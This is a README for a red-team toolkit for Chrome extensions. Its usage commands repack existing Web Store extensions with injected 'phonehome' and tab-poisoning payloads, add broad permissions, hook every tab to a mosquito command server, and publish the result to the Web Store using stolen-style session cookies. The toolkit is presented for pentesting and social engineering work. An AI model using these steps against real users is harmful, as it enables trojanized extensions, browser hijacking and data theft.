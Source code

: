 Various tools for dealing with Chrome Extensions, especially valuable for pentesting / social engineering assignments.

Authors:

 - Krzysztof Kotowicz - @kkotowicz - [blog](http://blog.kotowicz.net)
 - Michele '@antisnatchor' Orru


Injector
--------
Bunch of scripts for injecting existing extensions with new code:
Extensions can be downloaded from Chrome WebStore (repacker-webstore) or taken from crx files (repacker-crx).

Requirements:

 - bash
 - ruby
 - zip (cmd line)
 - curl (cmd line)
 - Google Chrome (used in crx mode only)

Usage:

    # get extension from Web Store, add payloads/phonehome.js and copy the extension to repacked-dir/
    $ injector/repacker-webstore.sh clcbnchcgjcjphmnpndoelbdhakdlfkk dir repacked-dir payloads/phonehome.js

    # Same, but pack into repacked.zip instead
    $ injector/repacker-webstore.sh clcbnchcgjcjphmnpndoelbdhakdlfkk zip repacked.zip payloads/phonehome.js

    # Create new CRX with Google Chrome
    $ injector/repacker-webstore.sh clcbnchcgjcjphmnpndoelbdhakdlfkk crx repacked.crx payloads/phonehome.js

    # Inject into existing CRX file
    $ injector/repacker-crx.sh original.crx crx repacked.crx payloads/phonehome.js

    # Add some permissions into manifest.json
    $ injector/repacker-crx.sh original.crx crx repacked.crx payloads/phonehome.js "tabs,proxy"

    # Add persistent content script file launching on every tab
    $ echo 'console.log(location.href)' > cs.js
    $ injector/repacker-crx.sh original.crx crx repacked.crx payloads/cs_mass_poison.js "tabs,<all_urls>" cs.js

For example - mass poisoning every tab with [mosquito](https://github.com/koto/mosquito):

    # start mosquito server:
    $ cd path/to/mosquito
    $ python mosquito/start.py 8082 4444 --http 8000

    # generate mosquito hook:
    # - visit http://localhost:8000/generate
    # - save hook as cs.js

    # inject mosquito dropper into extension:
    $ injector/repacker-crx.sh original.crx crx repacked.crx payloads/cs_mass_poison.js "tabs,<all_urls>" cs.js


Webstore Uploader
-----------------
Script for uploading and publishing Chrome Extensions packed in zip files in Chrome Web Store

Requirements:

 - ruby

Usage:

    # Preparation:

    1. Create Chrome developer account
    2. Login at https://chrome.google.com/webstore/developer/dashboard/
    3. Pay your $5 one time fee (credit card needed)
    4. Get SID, SSID, HSID cookies and paste their values in webstore_uploader/config.rb file

    # Get Chrome extension code
    #  e.g. run Injector in zip mode:

    $ injector/repacker-webstore.sh clcbnchcgjcjphmnpndoelbdhakdlfkk zip repacked.zip payloads/phonehome.js

    # (optional) - prepare screenshot / description file

    # publish the extension right away
    $ ruby webstore_uploader/webstore_upload.rb repacked.zip publish description.txt screenshot.png

    # or just upload & save it:
    $ ruby webstore_uploader/webstore_upload.rb repacked.zip save description.txt screenshot.png

    # you can access the extension from your developer dashboard
